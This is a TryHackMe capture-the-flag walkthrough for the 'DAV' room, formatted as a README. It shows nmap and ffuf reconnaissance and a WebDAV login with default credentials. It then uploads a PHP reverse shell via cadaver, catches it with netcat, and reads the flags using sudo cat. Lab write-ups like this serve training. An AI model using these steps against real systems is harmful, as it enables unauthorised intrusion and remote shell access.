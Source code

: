 # DAV-THM-CTF
DAV THM CTF Walkthrough
```markdown
# DAV THM CTF Walkthrough

Solving DAV TryHackMe Capture The Flag [DAV TryHackMe Room](https://tryhackme.com/r/room/bsidesgtdav)

## First Step: Reconnaissance

```sh
nmap -sV -sC -Pn -A 10.10.210.35
```
![Nmap Result](Img)

Here we see only port 80 (http) is open, running Apache httpd 2.4.18 on Ubuntu.

Next step is to visit the webpage where we see the default Apache page, nothing really interesting yet.
![Apache Default Page](Img)

## Directory Brute-Forcing

Using `ffuf` (gobuster alternative):
```sh
ffuf -u http://10.10.210.35/FUZZ -e .php,.txt -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
```

We found `/webdav`, which is interesting. Using BurpSuite or Hydra is not required for this login. A quick Google search reveals that WebDAV stands for "Web-based Distributed Authoring and Versioning," which means it can be exploited. Default credentials for WebDAV in this CTF Room are used: `wampp:xampp`.

Successful login.
![WebDAV Login](Img)

We get `password.dav` which contains a hash that I couldn't crack.

## Exploiting WebDAV

Instead, I searched for other vulnerabilities and found that we can use `cadaver` to upload a reverse shell PHP file.

```sh
cadaver http://10.10.210.35:80/webdav/
put reverseShell.php
```
![Upload with Cadaver](Img)

Get the reverse shell PHP from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Just modify your attacker IP and port.

Open netcat listener.
![Netcat Listener](Img)

Go back to [WebDAV](http://10.10.210.35/webdav/) and run the PHP file we just uploaded.
![Run PHP File](Img)

We got the reverse shell.

## Converting to TTY Shell

(Optional but recommended)
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![TTY Shell](Img)

## Finding Flags

To find `user.txt`, use:
```sh
find / -type f -name user.txt 2>>/dev/null
```
![Find user.txt](Img)

Then use `cat` to read the flag.

To check for root permissions:
```sh
sudo -l
```
![sudo -l](Img)

We can run the `cat` command as sudo:
```sh
sudo cat /root/root.txt
```
![Root Flag](Img)

Congrats! We have solved DAV THM CTF! Follow My GitHub for more.
```

You can copy and paste this content into your README.md file.
